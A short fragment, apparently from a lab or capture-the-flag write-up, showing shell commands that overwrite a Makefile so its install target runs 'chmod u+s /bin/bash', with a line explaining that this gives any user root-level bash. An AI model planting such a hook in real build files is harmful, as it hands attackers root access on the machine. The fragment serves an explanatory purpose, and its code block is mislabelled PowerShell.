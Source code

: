 ```PowerShell
echo -e 'install:\n\tchmod u+s /bin/bash' > /home/profiler/php-spx/Makefile
echo -e 'all:\n\t@echo "Do nothing in all"\n\ninstall:\n\tchmod u+s /bin/bash' > Makefile
```

The command `**chmod u+s /bin/bash**` attempts to set the **SUID (Set User ID)** bit on `**/bin/bash**`, which would allow any user executing the binary to run it with the permissions of the file owner (typically `**root**`).